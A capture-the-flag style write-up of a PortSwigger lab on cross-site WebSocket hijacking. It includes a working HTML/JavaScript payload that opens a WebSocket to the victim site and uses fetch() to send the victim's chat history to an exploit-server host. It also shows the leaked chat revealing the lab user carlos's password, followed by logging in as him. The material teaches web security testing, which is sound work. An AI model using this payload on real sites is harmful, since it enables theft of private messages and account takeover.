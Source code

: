 # Cross-site WebSocket hijacking

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab), you'll learn: Cross-site WebSocket hijacking! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a [cross-site WebSocket hijacking attack](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) to exfiltrate the victim's chat history, then use this gain access to their account.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020342.png)

**Live chat:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020516.png)

In the previous labs, we found that the live chat is vulnerable to XSS(Cross-Site Scripting).

**To intercept WebSocket traffics, we can use Burp Suite:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020713.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020720.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020726.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020741.png)

**Refresh the page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219021116.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219021609.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219021146.png)

In the above requests, we can see that **it's vulnerable to CSRF(Cross-Site Request Forgery), as the GET request to `/chat` is only using a `session` cookie, no CSRF token or unpredictable values in request parameters.**

If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site!

**To do so, I'll craft a HTML form that automatically send a WebSocket request to `/chat` with message `READY`, and exfiltrate the victim's chat history:**
```html
<html>
    <head>
        <title>Cross-site WebSocket hijacking</title>
    </head>
    <body>
        <script>
	        // Create a new WebSocket object that points to /chat endpoint
            var webSocket = new WebSocket('wss://0a3c001503003fdec15a8fb1002000a3.web-security-academy.net/chat');
            webSocket.onopen = function() {
	            // Send "READY" message to /chat to render the chat history
                webSocket.send("READY");
            };
            webSocket.onmessage = function(event) {
	            // Send a GET request with the chat history to exploit server 
                fetch('https://exploit-0a4f00e603833f76c1a48e8b017f0066.exploit-server.net/?'+event.data, {method: 'GET'});
            };
        </script>
    </body>
</html>
```

**Next, we can copy and paste that to the exploit server:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219024639.png)

**Then send the CSRF payload to the victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219024717.png)

**Finally, we can check the access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219024731.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219024756.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219024939.png)

```
{"user":"You","content":"I forgot my password"}
{"user":"Hal Pline","content":"No problem carlos, it&apos;s 3tgu7yhedoahtz94rxch"}
{"user":"Hal Pline","content":"Hello, how can I help?"}
{"user":"You","content":"Thanks, I hope this doesn&apos;t come back to bite me!"}
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

**Found `carlos` password! `3tgu7yhedoahtz94rxch`.**

**Let's login as carlos!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219025024.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219025032.png)

We're user `carlos`!

# What we've learned:

1. Cross-site WebSocket hijacking